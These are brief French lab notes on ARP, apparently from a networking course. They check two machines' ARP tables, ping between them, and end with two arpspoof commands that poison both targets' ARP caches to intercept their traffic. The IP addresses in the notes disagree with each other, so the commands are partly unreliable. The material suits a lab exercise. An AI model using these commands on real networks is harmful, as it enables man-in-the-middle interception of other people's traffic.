 Vérifier la table ARP des 2 machines
> arp

De base cela ne retourne rien car les tables ARP sont vide

Tentez de ping la machine 2 depuis la machine 1
> ping 172.20.0.12 


Vérifier à nouveau la table ARP des 2 machines
> arp

// Arp spoofing sur les 2 Machines cibles
arpspoof -i eth0 -t 172.17.20.11 172.17.0.12
arpspoof -i eth0 -t 172.17.20.12 172.17.0.11
